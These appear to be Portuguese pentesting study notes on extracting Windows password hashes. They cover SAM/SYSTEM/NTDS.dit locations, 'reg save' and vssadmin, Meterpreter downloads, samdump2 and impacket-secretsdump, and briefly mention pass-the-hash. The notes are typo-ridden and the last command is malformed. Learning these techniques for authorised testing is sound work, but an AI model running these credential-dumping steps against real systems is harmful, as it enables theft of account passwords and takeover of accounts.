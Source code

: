 ##   Hashes e Senhas - Windows

Introdução: Hashes em Windows

**SAM - Security Account Manager (Windows)**

Armazena as contas de usuários

%SystemRoot%/system32/config/sam

**NTDS.DIT (Windows Server / Active Directory)**

Armazena dados do AD incluindo as contas de usuários

%SystemRoot%/ntds/ntds.dit

**SYSTEM**

Arquivo do sistema necessário para decriptar o SAM/NTDS.DIT

%SystemRoot%/system32/config/system

Obs: Os arquivos acima são protegidos quando estão em execução, ou seja você não consegue copia-los quando estiverem em uso.

**Possivel solução para acesso aos arquivos**

**LOCALMENTE**

Acesso fisico ao computador? Realizar boot com live cd e capturar os arquivos.

**REMOTAMENTE**

C:\Windows\repair (apanesa sistema antigos como XP/2003)

Salvar direo do registro do windows (Desde versões antigas a versões recentes)

Ex: reg save hklm\sam

Cópia somnbra do volume (Versões mais recentes)

Ex: vssadmin


**ATAQUE**

Obter os arquvios e usá-los para obter os hashes

Tentar descobrir os hashes obtidos

**OUTRAS TÈCNICAS**

Senhas em memória/cache - Utilizar técnicas para obter senhas em cache ou na memória do Sistema.

Pass The Hash - Técnica para utilizar um hash sem precisar quebrá-lo

Captura de hashes na rede

**Exemplo de Hashes no Windows**

**Usuário   ID    LM(LAN MANAGER)   -   NTLM(NT LAN MANAGER)**

Administrador:500:aa.......................ee:ae..........................:::

rafaela:1005:aa...........................ee == vazio (significa que não está usando LM então se torna mais fácil de quebrar.)

Obs: ID = 500 - Corresponde a uma conta de administrador.


## Obtendo hashes: Sistemas Antigos

`getuid` - Comando para saber qual o seu nivel de permissão.

C:\WINDOWS\system32\config  - Local onde ficam armazenados as senhas

C:\WINDOWS\repair - Backup das senhas

`download sam` -> comando para fazer download do sam 

`download system` -> comando para fazer download do system 

Obs: o comando download é utilizado dentro do meterpreter

samdump2 - Aplicação para  idenficar os hashs baixados.

Obtendo system e sam diretamente do reg do windows.

`shell`

`C:\> reg /?`

`C:\> reg save hklm\sam samOK`

`C:\> reg save hklm\system systemOK`

`C:\> exit`

`meterpreter> download samOK`

`meterpreter> download systemOK`

`root@kali:/home/# samdump2 systemOK samOK`

Obs: baixar os arquivos direto do reg você baixa o arquvivo mais atualizado.

Outra aplicação para extrair as hashs

`impacket-secretsdump -sam samOK -system -systemOK LOCAL`







